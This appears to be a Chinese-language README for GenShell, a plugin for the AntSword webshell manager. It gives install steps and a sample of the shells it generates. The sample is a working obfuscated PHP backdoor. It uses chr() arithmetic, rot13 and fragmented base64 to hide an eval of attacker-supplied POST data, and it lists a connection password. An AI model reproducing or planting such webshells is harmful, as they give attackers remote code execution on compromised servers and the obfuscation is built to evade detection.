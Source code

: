 # AntSword GenShell

> AntSword 生成 Shell插件

根据用户输入密码或随机产生密码，生成 Shell

## 安装

### 商店安装

进入 AntSword 插件中心，选择 GenShell，点击安装

### 手动安装

1. 获取源代码

	```
	git clone https://github.com/Medicean/GenShell.git
	```
	
	或者
	
	点击 [这里](https://github.com/Medicean/GenShell/archive/master.zip) 下载源代码，并解压。

2. 拷贝源代码至插件目录

    将插件目录拷贝至 `antSword/antData/plugins/` 目录下即安装成功

### 生成 SHell 样例

```
<?php // 使用时请删除此行, 连接密码: qqzqwUKx ?>
<?php $BSeT=create_function(chr(072114/01473).chr(0334074/01724).str_rot13('b').str_rot13('z').chr(0x3ac-0x347),chr(28482/282).base64_decode('dg==').base64_decode('YQ==').chr(0xc9a8/0x1de).chr(675-635).str_rot13('$').chr(0x166ed/0x31f).chr(807-696).chr(765-656).base64_decode('ZQ==').chr(0x18a-0x161).base64_decode('Ow=='));$BSeT(base64_decode('NTY0M'.'jA0O0'.'BldkF'.'sKCRf'.''.str_rot13('H').str_rot13('R').base64_decode('OQ==').chr(0x349-0x2f5).base64_decode('Vg==').''.''.chr(0x23e-0x1f8).chr(01633-01447).chr(0117730/0525).str_rot13('p').base64_decode('WA==').''.'pxd1V'.'LeF0p'.'OzE2O'.'TI2MT'.'I7'.''));?>
```

## 相关链接

* [AntSword 文档](http://doc.uyu.us)
* [dhtmlx 文档](http://docs.dhtmlx.com/)
